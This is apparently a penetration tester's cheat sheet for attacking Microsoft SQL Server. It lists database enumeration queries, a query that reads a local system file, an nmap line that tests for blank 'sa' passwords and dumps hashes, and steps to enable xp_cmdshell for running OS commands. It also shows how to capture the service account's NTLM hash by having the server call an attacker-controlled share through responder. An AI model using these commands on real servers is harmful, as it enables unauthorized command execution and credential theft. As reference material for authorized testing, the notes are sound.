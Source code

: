 MSSQL Syntax:
- Show databases: `SELECT name FROM master.dbo.sysdatabases` 
- `USE [database]`
- Show tables in a database: `SELECT * FROM [db].INFORMATION_SCHEMA.TABLES`
- Select all available entries from a table: `SELECT * FROM [table]`
- Read local files: `SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`

Nmap Scripts
`sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p[port] [IP]`

xp_cmdshell
- `xp_cmdshell "command"` in an interactive sql session to execute commands. You may need to add `exec` at the beginning 
- TO ENABLE xp_cmdshell:
	- You must be system administrator or `sa` (I think) or have similar permissions
	- `EXEC sp_configure 'show advanced options', '1'`
	- `RECONFIGURE`
	- `EXEC sp_configure 'xp_cmdshell', '1'`
	- `RECONFIGURE`


metasploit `mssql_ping` scanner, `mssql_login`
- if you start a metasploit session using one of the modules, add the `mssql_enum` to see what commands work in the session
- go back to the session you opened, use `query_interactive` and then try some such as `xp_cmdshell "dir C:\"`


Other Clients
- `locate mssqlclient` to find what you have
- SQL Server Management Studio (SSMS)
- `mssql-cli`
- SQL Server Powershell
- HeidiSQL
- SQLPro
- Impacket: `mssqlclient.py`
- `sqsh`
- `netexec mssql`


### Capture MSSQL Service Hash

Note: This is a windows authentication account, not necessarily an account set up with the MSSQL database

First, start `sudo responder -I tun0` or `sudo impacket-smbserver share./ -smb2support`

on MSSQL Session
- `EXEC master..xp_dirtree '\\[IP]\share\'`
- OR `EXEC master..xp_subdirs '\\[IP]\share\`
- responder should capture the hash

### Enumerate User Privs and Impersonations
